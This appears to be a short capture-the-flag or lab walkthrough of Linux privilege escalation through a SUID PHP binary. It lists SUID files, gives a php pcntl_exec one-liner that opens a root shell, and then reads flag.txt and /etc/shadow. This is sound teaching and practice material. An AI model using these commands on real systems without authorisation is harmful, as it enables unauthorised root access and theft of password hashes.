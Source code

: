 - [Linux Privilege Escalation | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

```bash
# List owned files with SUID permissions

find / -type f -perm -4000 2>/dev/null
```

```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.3
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
```

- Go to [GTFOBins](https://gtfobins.github.io/) and check for [php SUID](https://gtfobins.github.io/gtfobins/php/#suid)

> If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
>
> This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"

# This will run /bin/sh as root user
```

```bash
whoami
id
	uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
	
cd /root
cat flag.txt
cat /etc/shadow
...
```

![](.gitbook/assets/2024-07-14_19-53-41_637.png)

---
